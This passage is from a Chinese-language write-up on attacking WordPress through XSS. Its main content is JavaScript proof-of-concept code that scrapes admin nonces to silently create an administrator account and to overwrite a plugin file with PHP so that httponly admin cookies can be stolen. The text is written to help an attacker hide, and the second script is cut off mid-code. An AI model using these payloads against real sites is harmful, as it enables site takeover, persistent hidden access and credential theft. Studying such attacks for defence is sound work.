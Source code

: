 ## xss的前端攻击

在wordpress中，对用户的权限有着严格的分级，我们可以构造请求来添加管理员权限的账号，用更隐秘的方式来控制整个站点。

poc:
```
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/user-new.php';
user = 'ddog';
pass = 'ddog';
email = 'ddog@ddog.com';

a = new XMLHttpRequest();
a.open('GET', url+p, 0);
a.send();

ss = '_wpnonce_create-user=' + /nonce_create-user" value="([^"]*?)"/.exec(a.responseText)[1] +
'&action=createuser&email='+email+'&pass1='+pass+'&pass1-text='+pass+'&pass2='+pass+'&pw_weak=on&role=administrator&user_login='+user;

b = new XMLHttpRequest();
b.open('POST', url+p, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);

```

后台已经被添加了新的管理员账号
![image.png-8.5kB][6]

但即便是我们通过添加新的管理员账号获取了网站的管理员权限，我们还是不可避免的留下了攻击痕迹，但其实我们通过更隐秘的方式获取admin账号的cookie。

还记得上文中提到的php代码执行吗，利用注入页面的phpinfo，我们可以获取httponly的cookie。

![image.png-34.9kB][7]

当然，我们仍然需要构造连接整个攻击过程的js代码。

```
// 写入phpinfo
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/plugin-editor.php?';
q = 'file=hello.php';
s = '<?php phpinfo();?>';

a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

ss = '_wpnonce=' + /nonce" value="([^"]*?)"/.exec(a.responseText)[1] +
'&newcontent=' + s + '&action=update&file=hello.php';

b = new XMLHttpRequest();
b.open('POST', url+p+q, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);

// 请求phpinfo
b.onreadystatechange = function(){
   if (this.readyState == 4) {
      	p_url = url + 'wp-content/plugins/hello.php';

		c = new XMLHttpRequest();
```

  [1]: http://static.zybuluo.com/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: http://static.zybuluo.com/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: http://static.zybuluo.com/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: http://static.zybuluo.com/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: http://static.zybuluo.com/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: http://static.zybuluo.com/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: http://static.zybuluo.com/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: http://static.zybuluo.com/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: http://static.zybuluo.com/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: http://static.zybuluo.com/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: http://static.zybuluo.com/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: http://static.zybuluo.com/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: http://static.zybuluo.com/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png
